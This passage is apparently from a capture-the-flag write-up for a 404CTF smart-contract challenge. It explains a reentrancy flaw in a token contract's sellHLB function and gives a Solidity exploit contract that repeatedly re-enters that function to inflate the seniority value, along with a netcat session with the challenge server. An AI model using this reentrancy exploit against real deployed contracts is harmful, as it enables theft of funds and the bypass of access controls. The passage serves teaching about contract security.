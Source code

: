 Unfortunately, the vipPass is not the only thing that is required, we need to have an address that is VIP:

```bash
nc challenge.404ctf.fr 30885
Si vous êtes un membre, appuyez sur entrée. Si vous êtes un VIP, rentrez votre pass :
38330739118242568697380065849010598905319469511070891991863930858741423657088
Nous allons maintenant vérifier que vous êtes bien un vip.
Veuillez rentrer l'adresse ethereum avec laquelle vous êtes vip :
```

### Pwning the contract

To get VIP we have to pass two requires: `require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");` and `require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");`.

The only function that update the seniroity mapping is `function sellHLB(uint256 numTokens)`. This function can only be called once a year and if we have already some HLB tokens. Before updating the `lastWithdrawTime` variable to restrict the call to that function, the fallback to our contract is called, which can call the `sellHLB(uint256 numTokens)` function. In other words, we can call the function `sellHLB(uint256 numTokens)` multiple times before the `lastWithdrawTime` function is updated, this is a reentrency attack!

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "ds-test/test.sol";
import "forge-std/Test.sol";

interface IHallebardeToken {
    function sellHLB(uint256 numTokens) external;

    function seniorityOf(address tokenOwner) external view returns (uint256);

    function balanceOf(address tokenOwner) external returns (uint256);

    function buyHLB() external payable;

    function senior() external view returns (uint256);
}

contract TokenTest is Test {
    uint256 i = 0;
    IHallebardeToken ht =
   IHallebardeToken(address(0xD5c0873f147cECF336fEEF1a28474716C745Df86));

    constructor() payable {}

    function pwn() public {
        ht.buyHLB{value: 12}();
        ht.sellHLB(1);
        ht.senior();
    }

    receive() external payable {
        emit log_named_uint(
            "seniority",
            ht.seniorityOf(address(this)) / 365 days
        );
        if (i <= 8) {
            i++;
            ht.sellHLB(1);
        }
    }
```